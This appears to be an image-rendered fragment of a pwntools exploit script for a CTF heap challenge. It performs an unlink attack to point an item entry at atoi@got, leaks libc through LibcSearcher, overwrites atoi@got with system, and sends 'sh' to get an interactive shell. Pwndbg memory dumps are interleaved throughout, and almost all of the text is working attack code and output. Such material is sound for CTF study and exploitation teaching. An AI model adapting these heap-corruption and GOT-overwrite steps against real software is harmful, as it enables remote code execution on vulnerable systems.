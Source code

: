    ```s
    # dbg()
    # pwndbg> x/16g 0xe1f020
    # 0xe1f020: 0x0000000000000000  0x0000000000000051
    # 0xe1f030: 0x0000000000000000  0x0000000000000041
    # 0xe1f040: 0x00000000006020b0  0x00000000006020b8
    # 0xe1f050: 0x0000000000000000  0x0000000000000000
    # 0xe1f060: 0x0000000000000000  0x0000000000000000
    # 0xe1f070: 0x0000000000000040  0x0000000000000090 <- id1
    # 0xe1f080: 0x0000000000626200  0x0000000000000000
    # 0xe1f090: 0x0000000000000000  0x0000000000000000
    remove(1)
    # dbg()
    # pwndbg> x/16g 0x161d020
    # 0x161d020:    0x0000000000000000  0x0000000000000051
    # 0x161d030:    0x0000000000000000  0x00000000000000d1
    # 0x161d040:    0x00007f8f5abacb78  0x00007f8f5abacb78
    # 0x161d050:    0x0000000000000000  0x0000000000000000
    # 0x161d060:    0x0000000000000000  0x0000000000000000
    # 0x161d070:    0x0000000000000040  0x0000000000000090
    # 0x161d080:    0x0000000000626200  0x0000000000000000
    # 0x161d090:    0x0000000000000000  0x0000000000000000
    # now id0 point to fake_chunk's fd(0x006020b0) which at .bss
    # we jsut need to padding to 0x00000000006020C0(itemlist) and rewite it to atoi@got
    # and then leak the libc
    # dbg()
    payload = p64(0)*2 + p64(0x40) + p64(atoi_got)
    chage(0,payload)
    atoi_addr = u64(show().ljust(8,'\x00'))
    leak('atoi',atoi_addr)
    libc = LibcSearcher('atoi',atoi_addr)
    libc_base = atoi_addr - libc.dump('atoi')
    system_addr = libc_base + libc.dump('system')
    leak('system',system_addr)
    # dbg()
    # pwndbg> x/16g 0x006020b0
    # 0x6020b0 <stdin@@GLIBC_2.2.5>:    0x0000000000000000  0x0000000000000000
    # 0x6020c0 <itemlist>:  0x0000000000000040  0x0000000000602068
    # 0x6020d0 <itemlist+16>:   0x0000000000000000  0x0000000000000000
    # 0x6020e0 <itemlist+32>:   0x0000000000000010  0x0000000001050110
    # 0x6020f0 <itemlist+48>:   0x0000000000000000  0x0000000000000000
    # 0x602100 <itemlist+64>:   0x0000000000000000  0x0000000000000000
    # 0x602110 <itemlist+80>:   0x0000000000000000  0x0000000000000000
    # 0x602120 <itemlist+96>:   0x0000000000000000  0x0000000000000000

    chage(0,p64(system_addr))
    # dbg()
    # pwndbg> x/16g 0x0000000000602068
    # 0x602068: 0x00007f66cc821390  0x0000000000400700 <- aoti@got was chaged to system@got
    # 0x602078: 0x0000000000000000  0x0000000000000000
    # 0x602088: 0x0000000000000000  0x0000000000000000

    ru("Your choice:")
    sl('sh')
    # dbg()
    itr()

if __name__ == '__main__':
    unlinnk()
    # hof()
```
